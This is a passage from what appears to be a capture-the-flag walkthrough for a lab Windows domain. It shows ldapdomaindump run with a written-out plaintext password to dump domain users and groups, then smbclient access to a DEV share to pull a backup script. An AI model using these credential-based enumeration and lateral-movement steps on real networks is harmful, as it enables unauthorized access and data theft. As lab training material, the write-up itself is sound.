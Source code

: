 Wishful thinking.

## creds for david.orelious

### ldapdomaindump

Now that I have some credentials I can dump the domain for further investigation. Here in a larger engagement I would be loading up neo4j + bloodhound and determining what users have what permissions on what machines to escalate to higher permission accounts or services. We can start here on a smaller scale with an ldap domain dump which will show all users, devices, groups, and policies on the domain. 

```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' ldap://10.129.142.175
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
ls
 domain_computers_by_os.html   domain_groups.grep   domain_policy.html   domain_trusts.json           domain_users.json     users
 domain_computers.grep         domain_groups.html   domain_policy.json   domain_users_by_group.html  'Notice from HR.txt'
 domain_computers.html         domain_groups.json   domain_trusts.grep   domain_users.grep            pass
 domain_computers.json         domain_policy.grep   domain_trusts.html   domain_users.html            reports
```

The domain users html can be viewed inside of a web browser.

![ldapdomaindump results html]({{ page.img }}_1_domain_users_dumped.png)


## pivoting to emily.oscars

### DEV share

Surely now I can access the DEV share.

```bash
smbclient //10.129.142.175/DEV -U 'david.orelious'
Enter WORKGROUP\david.orelious's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 07:31:39 2024
  ..                                  D        0  Thu Mar 14 07:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 12:28:22 2024

		4168447 blocks of size 4096. 302480 blocks available
smb: \> get Backup_script.ps1 
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
```
